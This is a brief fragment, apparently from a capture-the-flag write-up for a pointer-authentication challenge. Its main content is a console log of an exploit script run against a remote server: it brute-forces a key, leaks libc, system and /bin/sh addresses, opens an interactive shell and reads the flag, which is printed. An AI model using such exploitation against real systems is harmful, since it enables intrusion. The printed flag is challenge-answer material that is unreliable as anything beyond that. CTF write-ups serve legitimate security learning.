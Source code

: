 ## Flag

```console
d4rk_kn1gh7 @ BatMobile  python exp.py
[+] Opening connection to 52.255.184.147 on port 8080: Done
[+] MBruteforcing: Found key: "t5iG"
[*] Libc base -> 0x4000838000
[*] System -> 0x4000878400
[*] Binsh -> 0x400095ecc0
[*] Switching to interactive mode
$ cat flag
*CTF{n0w_y0u_kn0w_p01nter_authent1cat10n}
```
